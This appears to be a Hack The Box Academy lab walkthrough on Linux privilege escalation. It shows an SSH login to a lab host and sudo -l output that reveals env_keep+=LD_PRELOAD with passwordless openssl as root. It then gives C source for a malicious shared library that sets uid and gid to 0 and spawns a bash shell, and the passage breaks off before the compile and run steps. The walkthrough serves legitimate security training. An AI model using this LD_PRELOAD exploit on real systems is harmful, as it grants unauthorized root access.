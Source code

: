 ```shell
ssh htb-student@STMIP
```

```
┌─[us-academy-1]─[10.10.14.118]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh htb-student@10.129.150.148

The authenticity of host '10.129.150.148 (10.129.150.148)' can't be established.
ECDSA key fingerprint is SHA256:jqHwbeBBQLd/z1BFRM732tTqQbhKGni0KhrGMszsiVM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '10.129.150.148' (ECDSA) to the list of known hosts.
htb-student@10.129.150.148's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

<SNIP>

htb-student@NIX02:~$
```

Students then need to use `sudo` with the `-l` (short version of the long version `--list`) option to list the allowed (and forbidden) commands for the invoking user:

Code: shell

```shell
sudo -l
```

```
htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: /usr/bin/openssl
```

Students will find that the invoking user has the right to launch `openssl` as root, thus, they need to run a custom shared library file that will exploit `LD_PRELOAD`. Students first need to save the following `C` code into a file:

Code: c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
